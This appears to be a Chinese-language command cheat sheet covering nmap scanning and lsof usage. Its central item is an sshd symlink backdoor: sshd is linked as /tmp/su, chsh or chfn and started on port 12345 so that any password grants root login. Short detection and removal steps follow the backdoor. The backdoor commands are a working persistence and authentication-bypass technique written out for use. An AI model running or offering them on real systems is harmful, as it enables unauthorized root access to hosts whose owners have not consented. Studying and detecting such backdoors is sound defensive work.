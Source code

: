 ### nmap命令
```
查询在线主机
nmap -sn 192.168.56.0/24

端口和服务
nmap -sS -sV -T5 -A -p- 192.168.0.109

```

### sshd软链接后门
```
1、服务端执行
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oport=12345
ln -sf /usr/sbin/sshd /tmp/chsh;/tmp/chsh -oport=12345
ln -sf /usr/sbin/sshd /tmp/chfn;/tmp/chfn -oport=12345

2、客户端执行
ssh root@x.x.x.x -p 12345

#输入任意密码就可以root用户权限登陆了，如果root用户被禁止登陆时，可以利用其他存在的用户身份登陆，比如：ubuntu

检测
1、查看可疑端口
netstat -antlp
2、查看可执行文件
ls -al /tmp/su
清除
1、禁止PAM认证
vim /etc/ssh/sshd_config
UsePAM no
2、重载
/etc/init.d/sshd reload

```

### lsof命令
```
列出某个用户打开文件的信息：
lsof -u username

列出以进程号打开的文件： 
lsof -p 1,234

列出所有网络连接：
lsof -i 

列出所有tcp连接：
lsof -i tcp 

查出22端口现在运行什么程序： 
lsof -i :22

列出谁在使用某个端口：
lsof -i tcp:3389

列出某个用户所有活跃的网络连接：
lsof -a -u username -i
```
